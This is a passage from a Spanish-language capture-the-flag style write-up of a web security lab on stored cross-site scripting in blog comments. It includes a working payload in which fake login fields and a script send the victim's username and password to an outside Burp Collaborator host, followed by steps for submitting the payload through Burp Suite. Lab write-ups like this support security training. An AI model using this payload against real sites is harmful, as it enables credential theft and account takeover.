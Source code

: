 ```
This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account.
```

Entonces primero iremos a la seccion de login para recoger las dos etiquetas input de usuario y contraseña.

```
<input required="" type="username" name="username">
<input required="" type="password" name="password">
```

Y para obtener el valor dentro de estos input podemos usar el payload:

```
document.getElementsByName("username")[0].value
document.getElementsByName("password")[0].value
```

Entonces, creamos nuestro payload.

```html
<input required="" type="username" name="username"><input required="" type="password" name="password"><script>document.location='http://9s2dl5quximg9tsq7m5m5gvfj6pwdl.burpcollaborator.net/?'+document.getElementsByName("username")[0].value+'&'+document.getElementsByName("password")[0].value</script>
```

Entonces, iniciamos el modo **Intercept ON** del burpsuite, y cambiamos el valor del mensaje por el payload, encodeado con URL encode.

![](img5.png)

Podemos ver que envia el paquete
